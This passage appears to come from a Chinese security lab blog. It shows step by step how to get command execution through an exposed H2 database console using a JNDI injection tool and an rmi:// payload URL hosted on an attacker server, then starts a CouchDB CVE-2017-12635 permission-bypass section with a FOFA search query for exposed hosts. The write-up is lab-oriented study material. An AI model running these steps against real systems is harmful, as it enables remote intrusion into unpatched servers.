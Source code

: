 ![1649478023168-cd11b308-87bc-45e1-b64a-fe31ceb9622d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134219330-1591942765.png)

```plain
利用这个管理页面，我们可以进行JNDI注入攻击，进而在目标环境下执行任意命令。
1、下载JNDI-Injection-Exploit
https://github.com/welk1n/JNDI-Injection-Exploit

2、生成执行RMI Payload-URL
-C 执行命令 -A 服务器地址
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C touch /tmp/success -A 175.178.151.29 （运行JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar包）175.178.151.297为攻击地址
```

![1649478300716-b85d6ecf-f6f9-4dc7-8276-1ea0af46e911.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134219531-1873225156.png)

```plain
会生成几个地址，一般选取：rmi://175.178.151.29:1099/ksvyoy

然后打开特定地址：http://192.168.233.128:8080/h2-console/login.jsp?jsessionid=8cdecf52152246fdd719b88eb2a891d7

把rmi://175.178.151.29:1099/ksvyoy写到JDBC URL
把javax.naming.InitialContext写到Driver Class
```

![1649478952299-25a3b8bc-5f71-4ec6-9b52-745b0e762bce.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134219449-1067327603.png)

```plain
但是这里失败了，需要在外网服务器上执行这个jar包，才可以成功。
```

![1649479383841-de52947a-1382-4143-9341-7af1c91c58c0.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134219557-215043913.png)

```plain
在tmp目录下就多出了一个文件目录，因为这个命令是创建一个目录的命令
```

![1649479486122-9e136392-1b32-4e73-84a4-ad5e13a63d08.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134219692-1963340369.png)

- CouchDB-权限绕过配合RCE-漏洞

```plain
默认端口：5984
Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）专门用来存储文档的数据库


fofa："CouchDB"&&port="5984"
```

未授权

```plain
启动环境：（未授权）
/vulhub-master/couchdb/CVE-2017-12635
docker-compose up -d

访问地址：http://192.168.233.128:5984/
```
